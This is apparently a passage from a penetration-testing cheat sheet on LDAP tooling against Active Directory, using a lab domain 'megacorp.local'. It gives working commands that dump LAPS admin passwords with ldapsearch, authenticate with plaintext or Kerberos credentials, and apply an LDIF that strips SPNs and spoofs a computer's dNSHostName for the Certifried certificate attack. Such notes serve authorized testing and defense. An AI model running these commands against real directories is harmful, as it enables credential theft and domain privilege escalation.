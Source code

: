 Dump LAPS passwords:

```
$ ldapsearch -h 192.168.1.11 -x -b "dc=megacorp,dc=local" '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

Simple authentication with a plaintext password:

```
$ ldapsearch -H ldap://192.168.1.11:389 -x -D 'CN=snovvcrash,CN=Users,DC=megacorp,DC=local' -w 'Passw0rd!' -s sub -b "DC=megacorp,DC=local" | tee ldapsearch.out
```

SASL GSSAPI (Kerberos) authentication (there should be both `A` and `PTR` DNS records of the DC for this to work):

```
$ sudo apt install libsasl2-modules-gssapi-mit
$ getTGT.py megacorp.local/snovvcrash:'Passw0rd!'
$ export KRB5CCNAME=`pwd`/snovvcrash.ccache
$ ldapsearch -H ldap://DC01.megacorp.local:389 -Y GSSAPI -s sub -b "DC=megacorp,DC=local" | tee ldapsearch.out
```

Analyze large output for anomalies by searching for unique strings:

```
$ cat ldapsearch.out | awk '{print $1}' | sort | uniq -c | sort -nr
```


#### ldapmodify

An example of removing SPNs and changing `dNSHostName` (see [dNSHostName Spoofing (Certifried)](/pentest/infrastructure/ad/ad-cs-abuse/dnshostname-spoofing-certifried.md)):

```
$ ldapmodify -H ldap://DC01.megacorp.local -Y GSSAPI -f spoof.ldiff
$ ldapsearch -H ldap://DC01.megacorp.local -Y GSSAPI -b "DC=megacorp,DC=local" '(&(objectCategory=computer)(sAMAccountName=fakemachine$))' servicePrincipalName dNSHostName
```

{% code title="spoof.ldiff" %}
```diff
dn: CN=FAKEMACHINE,CN=Computer,DC=megacorp,DC=local
changetype: modify
delete: servicePrincipalName
-
replace: dNSHostName
dNSHostName: dc01.megacorp.local
```
{% endcode %}



### windapsearch

* [https://github.com/ropnop/windapsearch](https://github.com/ropnop/windapsearch)
* [https://github.com/snovvcrash/windapsearch](https://github.com/snovvcrash/windapsearch)
